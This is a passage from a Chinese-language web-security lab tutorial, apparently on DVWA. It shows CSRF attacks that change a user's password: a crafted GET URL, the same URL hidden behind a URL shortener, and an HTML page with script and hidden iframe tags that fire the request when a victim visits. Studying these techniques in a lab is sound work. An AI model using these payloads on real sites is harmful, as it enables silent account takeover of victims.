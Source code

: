 只需要让用户点击这个网站就可，就可以修改了。

```
http://ip/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#
```

1. **短网址**

百度或者谷歌一下可以找到一大堆在线短网址生成工具，这里工具的[短链在线生成](https://tool.chinaz.com/tools/dwz.aspx)，然后上面那个奇怪的网址短网址后的效果如下：

```none
http://suo.im/5LkFdh
```

这个时候受害者访问这个短网址的话就会重定向到之前那个修改密码的链接

使用 curl -i 可以轻松查看重定向信息

1. **配合 XSS**

这种 XSS 和 CSRF 结合成功率很高，攻击更加隐蔽。

首先新建一个带有 xss 攻击语句的 html 页面，内容如下：

复制成功

```html
<html>
<head>
    <title>XSS&CSRF</title>
</head>
<body>
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
</body>
</html>
```

然后受害者访问 `http://ip/xss.html` 这个页面的时候，密码就被修改成了 222

核心语句就是通过 `scirpt` 标签的 src 属性来记载攻击 payload 的 URL：



```javascript
<script src="http://127.0.0.1:8888/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#"></script>
```

类似的还可以使用如下标签：

`iframe` 标签使用的话记得添加 `style="display:none;"`，这样可以让攻击更加隐蔽



```html
<iframe src="http://ip/vulnerabilities/csrf/?password_new=222&password_conf=222&Change=Change#" style="display:none;"></iframe>
```

`img` 标签的 src 属性依然也可以实现攻击：
